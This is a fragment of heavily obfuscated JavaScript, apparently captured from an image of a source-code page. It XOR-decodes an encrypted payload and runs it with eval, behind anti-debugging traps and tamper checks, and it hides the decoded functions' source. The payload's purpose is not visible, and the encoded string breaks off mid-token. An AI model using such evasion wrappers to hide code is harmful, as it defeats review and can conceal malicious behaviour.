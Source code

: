 ```.javascript
var c8i=(function B(t,n){var E='',D=decodeURIComponent("%09H%5D%067NI%08Y%7Bi%1E%2C%14%1E%12%3DfNI%3E4Y%5D9%0A%25%117%06%0F%0AoUp%08%1A8%1D%10%3C0%0Fp1y%1Aq%07%16%1B%5D6%06Y%1A%5B%3F6%01%06%0D%176'5%12%12*2O%0CV%5C%22%16%1A%0A%1F%06%3C%17rGL-%00%00'%26%03_%22y%1Aq%1E%15%1DM0%3D%03%0AIi%22%1C-%1F%1F%0F%3B%3F%06KtxdU%1D'%3C%13HEU1%08%25%3D6X%023%00%0E%2FRL%1E%19E%12C%17*d%11%2F%1E%01%18%16%0B!%15R%25O%0E%06%11*r%1AMk%26%11%19I(2WCm%0D%2B%18%06eCm%0D%0F6B%18oj84'*d%11%2F%1E%03%18%0B%04)%15%09%24M%0E%06%15*%23rKs%261%1F%3F04%10%5D.%3A%157%05%04%14%60.%08Bml%1Ej%3C5%5E-C%0E.%16kO%0B%0CNeD%1A%09%3B)%0D%1B%3Dz%1A%0E%1F%1A'%06%04%1D%02%00%3DEbU%1E6%08o%7Fj%03_!%20N%00%0EH%5D%064%02%15Z%1Ck%7BL(%09%0A%03'.%5E%5Bf5BB%13%0C%23_XW40%1A%3C%11%2F7%0F%3B%1C%1C%18(p%17%1Au%00%26'%3Et%10-%26y(%1A%16%3C%0D%255%2F%1B%1F%5E%5Bf4S%40%16%03'%06HEU3!%25%20W%5Eg%08o%7Fj6_yi%08!%09%02%18_4%06%0ADY%7Bi%5CuVG%13%26%3F%106%3F%23XDFNz%3F%5B(03%00%245_%0Fw3%24%3C%3A1m%01%18My%15%1B-O%7B%11%3Ej%12%0A%2CA4!%25%22%08!W%0A%041DlU%5Eh%5D%2FI6DoUp0.*2xoxTR%20%2CZsDJ%01W%22NI%08%03%3B8%1D%3BFUX1%3F%00%02%3F!SBFNz%13%06%06%1F%00'%00%3E%0ENuQ%13oxTP)%20D%3BTXOf%09ZMj%16%2B%0B!%60P%25OqfNI%2B3TC%0E%10-%0D%13");for(var o=0,Z=0;o<D["length"];o++,Z++){if(Z===n["length"]){Z=0;}E+=String["fromCharCode"](D["charCodeAt"](o)^n["charCodeAt"](Z));}var i=E.split('<,>');try{eval(i[39]);return function(){};}catch(p){try{(function(){}).constructor(i[39])();return function(){};}catch(O){}}if(i[38] in eval){return function(){};}var v=typeof window===i[6]&&typeof window[i[40]]!==i[11]?window:global,Z7=function(O){return new v[i[12]](i[41])[i[14]](O)?O[i[42]](1,O[i[3]]-1):O;};try{(function R7(O){if((i[2]+(O/O))[i[3]]!==1||O%20===0){(function(){}).constructor(i[37])();}else{debugger;}R7(++O);}(0))}catch(O){}var y=(function(O7){var N7=function(O,p,K,N){switch(O){case 0:return (p&K)^(~p&N);case 1:return p^K^N;case 2:return (p&K)^(p&N)^(K&N);case 3:return p^K^N;}},k=function(O,p){return (O<<p)|(O>>>(32-p));},R=function(O){var p=i[2],K;for(var N=7;N>=0;N--){K=(O>>>(N*4))&0xf;p+=K[i[9]](16);}return p;},l7=function(O){var p=[];for(var K=O[i[3]]-1,N=0;K>=0;K--){p[N++]=O[K];}return p;},v7=function(O){O=O[i[24]](new v[i[12]](i[25],i[26]),i[27]);var p=i[2];for(var K=0;K<O[i[3]];K++){var N=O[i[5]](K);if(N<128){p+=String[i[4]](N);}else if((N>127)&&(N<2048)){p+=String[i[4]]((N>>6)|192);p+=String[i[4]]((N&63)|128);}else{p+=String[i[4]]((N>>12)|224);p+=String[i[4]](((N>>6)&63)|128);p+=String[i[4]]((N&63)|128);}}return p;},X=typeof v[i[28]]!=i[6]||new v[i[12]](i[29])[i[14]](v[i[28]][i[30]]),G=i[8]===typeof B&&new v[i[12]](i[31],i[26])[i[14]](B+i[2]),r=X,u=!new v[i[12]](i[27])[i[14]](B),K7=r?0x8f1bbcdc:0x10325476,Q=X?0xefcdab89:0x6ed9eba1,J=u,g7=J?0x6ed9eba1:0x98badcfe,W=G?0x98badcfe:0x8f1bbcdc,M=G?0x67452301:0x5a827999,z=u?0xc3d2e1f0:0x67452301,q=J?0x10325476:0xca62c1d6,I7=[r?(J?0x5a827999:M):z,G?(J?g7:0x5a827999):Q,G?(r?K7:W):0x5a827999,J?(G?0xca62c1d6:0x8f1bbcdc):q],V7=function(O,p){O=v7(p?O:O[i[24]](new v[i[12]](i[32],i[26]),i[2])+O[i[24]](new v[i[12]](i[33],i[26]),i[2]));O+=String[i[4]](0x80);var K=O[i[3]]/4+2;var N=Math[i[34]](K/16);var e=new Array(N);for(var I=0;I<N;I++){e[I]=new Array(16);for(var L=0;L<16;L++){e[I][L]=(O[i[5]](I*64+L*4)<<24)|(O[i[5]](I*64+L*4+1)<<16)|(O[i[5]](I*64+L*4+2)<<8)|(O[i[5]](I*64+L*4+3));}}var P=false,Y=false;if(typeof v[i[16]]===i[6]&&v[i[16]][i[17]]&&((typeof v[i[16]][i[18]][i[9]]===i[8]&&v[i[16]][i[18]][i[9]]()[i[19]](i[20])!==-1)||typeof v[i[16]][i[21]](1)===i[22])){P=true;}if(!u){Y=true;}e[N-1][P&&Y?13:14]=((O[i[3]]-1)*8)/Math[i[35]](2,32);e[N-1][P?15:14]=Math[i[36]](e[N-1][14]);e[N-1][Y?14:15]=((O[i[3]]-1)*8)&0xffffffff;var H=Q;var S=q;var m=W;var d=M;var f=z;if(typeof v[i[28]]==i[6]&&!new v[i[12]](i[29])[i[14]](v[i[28]][i[30]])){f=Q;d=W;S=M;m=z;H=q;}var F=new Array(80);var j,s,C,c,A;for(var I=0;I<N;I++){for(var g=0;g<16;g++)F[g]=e[I][g];for(var g=16;g<80;g++)F[g]=k(F[g-3]^F[g-8]^F[g-14]^F[g-16],1);j=d;s=H;C=m;c=S;A=f;for(var g=0;g<80;g++){var T=Math[i[36]](g/20);var p7=(k(j,5)+N7(T,s,C,c)+A+I7[T]+F[g])&0xffffffff;A=c;c=C;C=k(s,30);s=j;j=p7;}d=(d+j)&0xffffffff;H=(H+s)&0xffffffff;m=(m+C)&0xffffffff;S=(S+c)&0xffffffff;f=(f+A)&0xffffffff;}if(typeof v[i[23]]!==i[11]){return R(m)+R(S)+R(d)+R(H)+R(f);}return R(d)+R(H)+R(m)+R(S)+R(f);};return {a:V7,b:O7};})(B);try{var w=i[2];if(typeof v[i[16]]===i[6]&&v[i[16]][i[17]]&&((typeof v[i[16]][i[18]][i[9]]===i[8]&&v[i[16]][i[18]][i[9]]()[i[19]](i[20])!==-1)||typeof v[i[16]][i[21]](1)===i[22])){return function(){};}if(typeof v[i[23]]!==i[11]){throw i[2];}}catch(O){return function(){};}try{/Array.constructor.constructor/;if(!new v[i[12]](i[13])[i[14]](String.prototype.charCodeAt+i[2])||!new v[i[12]](i[15])[i[14]](String[i[4]]+i[2])){return function(){};}}catch(O){return function(){};}try{var x=0,U=23,l=[];l[x]=y[i[0]](Z7(y[i[1]]+i[2]))+i[2];var i7=l[x][i[3]];for(var o=t[i[3]]-1,Z=0;o>=0;o--,Z++){if(Z===i7){Z=0;if(++x===U){x=0;}if(l[i[3]]<U){l[x]=y[i[0]](l[x-1],l[x-1])+i[2];}i7=l[x][i[3]];}w=String[i[4]](t[i[5]](o)^l[x][i[5]](Z))+w;}var V=(0,eval)(w);if(typeof V===i[6]){for(var h in V){if(V[i[7]](h)&&typeof V[h]===i[8]){V[h][i[9]]=V[h][i[10]]=function(){return i[2];};}}}(function x7(O){if(typeof O===i[6]){for(var p in O){if(O[i[7]](p)){if(typeof O[p]===i[8]){O[p][i[9]]=O[p][i[10]]=function(){return i[2];};}else if(typeof O[p]===i[6]){x7(O[p]);}}}}})(V);if(typeof V!==i[11])V[i[9]]=V[i[10]]=function(){return i[2];};return V;}catch(O){return function(){};}})(decodeURIComponent("%10T%14W%00G%5B%0B%0C%10%18%18%11%02y%7B%07M~%00%5C%1EC%2C%03kf1%5BCyu%2C%01%7C%02%17J%14aa%02%7C%2BnXZ%07u%00E%13q%05%00qamZFmX%10%3Cch%242XY%5D%1F%01%3B%0DW%05%05a%5BQv%08U0%24Xw%0FQ%2BQiG%5C~%16%7FfAS%3AMY%20_%5C%09ONEq%7B%03%60%00N%5EHS%07v%5B%11F~yR4w%20Gf%5E%01%0DU%04%0EF%0AS%04cyWZ%17%17%7Fe%1E%01%07q%20%03Vq%40ZtS%22ZA%3A!O%2C%0F%02%0Cu%05R%05~%026jX%11QvFY-%0DNQ'FP%26'F%07A%0C%1AQF%0BQDZ%0C%0A%1E%18%1E%18%15%13%15%02%16%5CTFYV%5CB%07N%1A%1A%17%19%1
```